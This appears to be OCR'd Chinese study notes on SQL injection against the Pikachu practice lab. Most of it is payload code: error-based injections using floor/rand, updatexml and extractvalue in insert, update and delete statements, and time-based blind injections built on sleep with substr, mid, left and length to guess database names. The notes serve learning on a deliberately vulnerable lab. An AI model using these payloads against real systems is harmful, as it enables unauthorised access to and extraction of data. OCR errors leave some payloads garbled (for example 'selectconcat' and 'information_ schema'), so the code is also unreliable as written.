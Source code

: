 4. ##### 提交方法：POST:GET:REQUEST:COOKIE：HTTP头：

5. ##### 数据类型：搜索型：字符型：数字型：

6. ##### 查询方式

   1. select: select * from news where id=$id

   2. insert: insert into news(id,url,text) values(2,'x','$t')  //过滤单引号和括号
      ```mysql
      username=x’ or (select 1 from (select count(*),concat((select(select(selectconcat(0x7e,database(),0x7e))) from information_ schema.tables limit 0,1) ,**floor**(rand(0)*2))x from information_ schema.tables group by x)a) or '
      username=x' or **updatexml**(1,concat(0x7e,**(version()**)),0) or '  //后加粗部分替换自己想要的函数
      username=x' or **extractvalue**(1,concat(0x7e,database())) '  //0x7e是拼接字段符，方便爬虫
      ```
      
   3. update: update user set pwd='$p' where id=2 and username

      ```mysql
   sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky’ or (select 1 from(select count(*),concat( **floor** (rand(0) *2),0x7e,(database()).0x7e) x from information_ scheme.character_sets group by x)a) or '
      sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky' or **updatexml**(1,concat(0x7e,(version()),0) or '
      
      sex=%E7%94%B7&phonenum=13878787788&add=Nicky' or **extractvalue**(1,concat(0x7e,database())) or '
      ```
      
   4. order by:
   
5. delete :
   ```mysql
   /pikachu/vu1/sq1i/sqli_del.php?id=56+or+(select+1+from (select+count(*),concat (**floor**(rand(0) *2),0x7e,(database()),0x7e) x+from+information_schema.character_sets+group+by+x)a)   //加号=空格，抓包拼接时需要，浏览器直接输入时不需要+
      
      pikachu/vu1/sqli/sqli_ del.php?id=56+or+**updatexml**+(1,concat(0x7e,database()),0)
      
      /pikachu/vul/sqli/sqli_del.php?id=56+or+**extractvalue** (1,concat(0x7e,database()))
   ```
   
7. ##### 回显/盲注：
   
   1. 回显注入：注入过程获取的数据回显到前端页面
   2. 无回显注入：获取数据不能回显到前端页面，需要利用一些方法进行判断或尝试
   
8. **延时盲注**--延时判断：if, sleep, 

   ```mysql
   1. select if(database()='pakachu',0,1);  //三目表达式判断数据库名
   
   2. If(ascii(substr(database(),1,1))>115,0,sleep(5))%23
   
   3. select * from member where id=1 and sleep(if(database()='a',5,0));  
   
      select * from member where id=1 and if(database()='a',sleep(5),0)
   
      //判断数据库名是否为a，是则等待5s，不是则直接输出
   
   4. 配合以下函数猜出数据库名
   
      1. and if(mid(database(),1,2)='a',sleep(5),0)    //从位置1开始，截取库名的2位
      2. and if(substr(database(),1,2)='a',sleep(5),0)   //从位置1开始，截取库名的2位
      3. and if(left(database(),1)='a' ,sleep(5),0)    //判断数据库前1位
      4. and if(length(database())=8,sleep(5),0)  //判断数据库名长度
   ```
